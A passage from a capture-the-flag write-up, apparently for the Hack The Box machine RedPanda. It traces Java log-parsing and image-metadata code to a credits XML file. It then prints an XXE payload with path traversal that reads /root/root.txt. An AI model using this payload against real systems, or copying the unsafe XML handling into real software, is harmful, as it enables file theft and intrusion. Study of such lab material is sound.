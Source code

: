 ```java
System.out.println("LOG: " + responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri);
FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
BufferedWriter bw = new BufferedWriter(fw);
bw.write(responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri + "\n");
```

The target URL is extracted from the log to identify the image:

```java
String[] strings = line.split("\\|\\|");
map.put("uri", strings[3]);
```

The author is retrieved from the metadata of the image:

```java
Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
for(Directory dir : metadata.getDirectories()) {
    for(Tag tag : dir.getTags()) {
        if(tag.getTagName() == "Artist") {
            return tag.getDescription();
        }
    }
}
```

Which points the app to the corresponding credit file:

```java
String xmlPath = "/credits/" + artist + "_creds.xml";
```

And then increment the view in the author's credit file:

```java
el.getChild("views").setText(Integer.toString(views + 1));
```

Here's the whole process for a log line:

```java
Map parsed_data = parseLog(line);
System.out.println(parsed_data.get("uri"));
String artist = getArtist(parsed_data.get("uri").toString());
System.out.println("Artist: " + artist);
String xmlPath = "/credits/" + artist + "_creds.xml";
addViewTo(xmlPath, parsed_data.get("uri").toString());
```

### Exploiting the credits and scoring!

The last step evaluates a XML without restrictions: it can be used to read files. This payload from [Hacktricks][hacktricks-xxe] can be used as `apehex_creds.xml` credit file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lfi [ <!ENTITY key SYSTEM "file:///root/root.txt" > ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <pwn>&key;</pwn>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```


[acunetix]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[author-profile]: https://app.hackthebox.com/users/25507
[cve-3560-poc]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[hacktricks-ssti]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java
[hacktricks-xxe]: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file
[panda-stats]: images/panda-stats.png
[panga-search]: images/panga-search.png
[spring-boot-template-engine]: https://www.baeldung.com/spring-template-engines#thymeleaf